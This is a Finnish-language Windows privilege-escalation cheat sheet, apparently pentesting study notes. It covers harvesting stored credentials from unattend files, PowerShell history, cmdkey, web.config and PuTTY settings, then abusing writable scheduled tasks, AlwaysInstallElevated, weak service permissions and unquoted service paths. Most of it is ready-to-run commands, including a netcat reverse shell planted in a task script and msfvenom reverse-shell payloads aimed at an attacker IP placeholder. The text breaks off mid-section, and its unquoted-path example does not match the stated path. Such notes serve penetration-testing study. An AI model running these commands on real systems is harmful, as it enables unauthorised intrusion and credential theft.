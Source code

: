 ## Privilege Escalation: Windows ##

Windowsissa tavalliset käyttäjät kuuluvat Users -käyttäjäryhmään, administraattorit Administrators -käyttäjäryhmään.

Erityiskäyttäjätunnukset:

SYSTEM / LocalSystem: Käyttöjärjestelmän käyttämä tunnus käyttöjärjestelmän sisäisiin toimintoihin. Adminejakin korkeammat oikeudet.

Local Service: Oletuskäyttäjä "minimioikeuksilla" Windowsin palvelujen ajamiseen, anonyymit yhteydet verkon yli.

Network Service: Sama kuin yllä, mutta käyttää tietokoneen tunnuksia autentikoitumiseen verkon yli.

**Selkokielisten tunnusten etsimispaikkoja**

WDS:llä asennetut "Unattended Windows Installations" saattavat jättää admin-tunnuksia näihin sijainteihin:
```bash
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
Powershell-historia (cmd.exe ajettuna):
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Tallennetut käyttäjätunnukset:
```cmd
cmdkey /list
```
Jos löytyy kokeilemisen arvoisia, niin:
```cmd
runas /savecred /user:USERNAME cmd.exe
```
IIS konfiguraatioon tallennetut tunnukset:
```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
```cmd
type C:\inetpub\wwwroot\web.config | findstr connectionString
```
PuTTY:n tallentamat Proxy-tunnukset:
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
**Ajastetut tehtävät**

Listaa ajastetut tehtävät:
```cmd
schtasks
```
Lisätietoja yksittäisestä tehtävästä:
```cmd
schtasks /query /tn *TaskName* /fo list /v
```
Task to run kertoo ajettavan tiedoston (esim. .bat scripti), Task as user kertoo käyttäjätunnuksen, jolla tehtävä ajetaan. Alla olevalla komennolla tarkistetaan ko. tiedoston kirjoitusoikeudet, ja jos nykyisellä käyttäjällä voidaan kirjoittaa, niin voidaan muokata scriptiä, ja se pyörähtää Task as user-tunnuksella. 
```cmd
icacls C:\polku\tiedostoon\scripti.bat
```
Jos esim. \USERS -käyttäjillä kirjoitusoikeudet, voidaan tehdä reverse shell netcatilla:
```cmd
echo c:\polku\netcatiin\nc64.exe -e cmd.exe *Hyökkääjän IP* 9999 > C:\polku\scriptiin\scripti.bat
```
Netcat -kuuntelumoodiin omalle koneelle porttiin 9999:
```cmd
nc -lvp 9999
```
Seuraavan ajastuksen yhteydessä aukeaa shell "Task as user" -tunnuksella.

**AllwaysInstallElevated**

Windowsin asennustiedostot .msi käynnistyvät oletuksena käyttäjän oikeuksilla, mutta voidaan konfiguroida käynnistymään myös korkeammilla oikeuksilla. Jos **molemmat** alla olevat rekisteriarvot saadaan päälle onnistuneesti:
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```
```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
niin voidaan luoda msfvenomilla .msi payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=*Hyökkääjän IP* LPORT=*Hyökkääjän portti* -f msi -o maltsu.msi
```
ja vastaavilla asetuksilla Metasploit Handler vastaanottamaan yhteys. Kun maltsu.msi on siirretty kohteelle, ajetaan ao. komento ja reverse shell pitäisi aueta:
```cmd
msiexec /quiet /qn /i C:\polku\kohteeseen\maltsu.msi
```
**Servicet**

Servicet pyörivät Service Control Managerin (SCM) kautta. Jokaisella servicellä on vastaava ohjelma, joka ajetaan. Servicestä tietoa esim.
```cmd
sc qc apphostsvc
```
BINARY_PATH_NAME = ohjelman polku, SERVICE_START_NAME = tunnus, jolla service käynnistetään.

Tarkistetaan ohjelman oikeudet icaclsilla:
```cmd
icacls C:\polku\ohjelmaan\service.exe
```
Jos käyttäjällä muokkausoikeudet (M)/(F), voidaan uudelleenkirjoittaa ko. ohjelma ja se ajetaan servicen ajavalla käyttäjätunnuksella. msfvenom payload esim:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=*Hyökkääjän IP* LPORT=*Hyökkääjän portti* -f exe-service -o service.exe
```
Siirretään päälle, ja annetaan oikeudet:
```cmd
icacls service.exe /grant Everyone:F
```
Jonka jälkeen netcat kuuntelija --> reverse shell, kun service käynnistyy uudelleen.

**Unquoted Service Paths**

Jos servicen BINARY_PATH_NAME ei ole laitettu oikein heittomerkkeihin, syntyy välilyönneistä mahdollisuus hyväksikäytölle. Esim. polun C:\MyPrograms\SFTP Siirto Työkalu\run.exe yrittää SCM arvata oikeaa polkua järjestyksessä:

C:\Programs\SFTP.exe, Siirto, Työkalu\run.exe

C:\Programs\SFTP Siirto.exe, Työkalu\run.exe

C:\Programs\SFTP Siirto Työkalu\run.exe


